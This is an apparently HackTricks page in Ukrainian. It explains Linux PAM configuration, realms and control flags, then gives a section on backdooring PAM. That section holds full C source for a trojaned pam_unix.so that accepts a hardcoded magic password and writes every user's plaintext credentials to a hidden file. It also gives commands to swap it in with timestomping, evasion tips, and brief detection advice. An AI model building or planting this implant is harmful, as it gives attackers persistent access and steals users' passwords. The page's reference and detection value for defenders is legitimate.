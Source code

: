 # PAM - Pluggable Authentication Modules

{{#include ../../banners/hacktricks-training.md}}

### Основна інформація

**PAM (Pluggable Authentication Modules)** діє як механізм безпеки, який **перевіряє особу користувачів, які намагаються отримати доступ до комп'ютерних послуг**, контролюючи їх доступ на основі різних критеріїв. Це схоже на цифрового охоронця, який забезпечує, щоб лише авторизовані користувачі могли взаємодіяти з певними послугами, одночасно потенційно обмежуючи їх використання, щоб запобігти перевантаженню системи.

#### Файли конфігурації

- **Системи Solaris та UNIX** зазвичай використовують центральний файл конфігурації, розташований за адресою `/etc/pam.conf`.
- **Системи Linux** віддають перевагу підходу з директоріями, зберігаючи специфічні для послуг конфігурації в `/etc/pam.d`. Наприклад, файл конфігурації для служби входу знаходиться за адресою `/etc/pam.d/login`.

Приклад конфігурації PAM для служби входу може виглядати так:
```
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_nologin.so
auth sufficient /lib/security/pam_ldap.so
auth required /lib/security/pam_unix_auth.so try_first_pass
account sufficient /lib/security/pam_ldap.so
account required /lib/security/pam_unix_acct.so
password required /lib/security/pam_cracklib.so
password required /lib/security/pam_ldap.so
password required /lib/security/pam_pwdb.so use_first_pass
session required /lib/security/pam_unix_session.so
```
#### **PAM Management Realms**

Ці області, або групи управління, включають **auth**, **account**, **password** та **session**, кожна з яких відповідає за різні аспекти процесу аутентифікації та управління сесіями:

- **Auth**: Підтверджує особу користувача, часто запитуючи пароль.
- **Account**: Обробляє перевірку облікового запису, перевіряючи умови, такі як членство в групі або обмеження за часом доби.
- **Password**: Керує оновленнями паролів, включаючи перевірки складності або запобігання атакам словником.
- **Session**: Керує діями під час початку або закінчення сесії служби, такими як монтування каталогів або встановлення обмежень ресурсів.

#### **PAM Module Controls**

Контролі визначають реакцію модуля на успіх або невдачу, впливаючи на загальний процес аутентифікації. До них відносяться:

- **Required**: Невдача обов'язкового модуля призводить до остаточної невдачі, але лише після перевірки всіх наступних модулів.
- **Requisite**: Негайне завершення процесу у разі невдачі.
- **Sufficient**: Успіх обходить решту перевірок того ж самого рівня, якщо наступний модуль не зазнає невдачі.
- **Optional**: Викликає невдачу лише якщо це єдиний модуль у стеку.

#### Example Scenario

У налаштуванні з кількома модулями auth процес слідує строгому порядку. Якщо модуль `pam_securetty` виявляє, що термінал для входу несанкціонований, вхід root блокується, але всі модулі все ще обробляються через його статус "required". Модуль `pam_env` встановлює змінні середовища, що потенційно покращує досвід користувача. Модулі `pam_ldap` та `pam_unix` працюють разом для аутентифікації користувача, причому `pam_unix` намагається використати раніше наданий пароль, підвищуючи ефективність і гнучкість методів аутентифікації.

## Backdooring PAM – Hooking `pam_unix.so`

Класичний трюк з постійністю в середовищах Linux високої вартості полягає в тому, щоб **замінити легітимну бібліотеку PAM на тройовану версію**. Оскільки кожен вхід через SSH / консоль в кінцевому підсумку викликає `pam_unix.so:pam_sm_authenticate()`, кілька рядків C достатньо, щоб захопити облікові дані або реалізувати *чарівний* обхід пароля.

### Compilation Cheatsheet
```c
#define _GNU_SOURCE
#include <security/pam_modules.h>
#include <dlfcn.h>
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

static int (*orig)(pam_handle_t *, int, int, const char **);
static const char *MAGIC = "Sup3rS3cret!";

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
const char *user, *pass;
pam_get_user(pamh, &user, NULL);
pam_get_authtok(pamh, PAM_AUTHTOK, &pass, NULL);

/* Magic pwd → immediate success */
if(pass && strcmp(pass, MAGIC) == 0) return PAM_SUCCESS;

/* Credential harvesting */
int fd = open("/usr/bin/.dbus.log", O_WRONLY|O_APPEND|O_CREAT, 0600);
dprintf(fd, "%s:%s\n", user, pass);
close(fd);

/* Fall back to original function */
if(!orig) {
orig = dlsym(RTLD_NEXT, "pam_sm_authenticate");
}
return orig(pamh, flags, argc, argv);
}
```
Скомпілювати та непомітно замінити:
```bash
gcc -fPIC -shared -o pam_unix.so trojan_pam.c -ldl -lpam
mv /lib/security/pam_unix.so /lib/security/pam_unix.so.bak
mv pam_unix.so /lib/security/pam_unix.so
chmod 644 /lib/security/pam_unix.so     # keep original perms
touch -r /bin/ls /lib/security/pam_unix.so  # timestomp
```
### OpSec Tips
1. **Atomic overwrite** – записати у тимчасовий файл і `mv` на місце, щоб уникнути частково записаних бібліотек, які можуть заблокувати SSH.
2. Розміщення лог-файлів, таких як `/usr/bin/.dbus.log`, зливається з легітимними артефактами робочого столу.
3. Зберігайте експорти символів ідентичними (`pam_sm_setcred` тощо), щоб уникнути неправильного поводження PAM.

### Detection
* Порівняйте MD5/SHA256 `pam_unix.so` з пакетом дистрибутива.
* Перевірте на наявність файлів, доступних для запису всім, або незвичну власність під `/lib/security/`.
* Правило `auditd`: `-w /lib/security/pam_unix.so -p wa -k pam-backdoor`.

### References

- [https://hotpotato.tistory.com/434](https://hotpotato.tistory.com/434)
- [Palo Alto Unit42 – Infiltration of Global Telecom Networks](https://unit42.paloaltonetworks.com/infiltration-of-global-telecom-networks/)

{{#include ../../banners/hacktricks-training.md}}
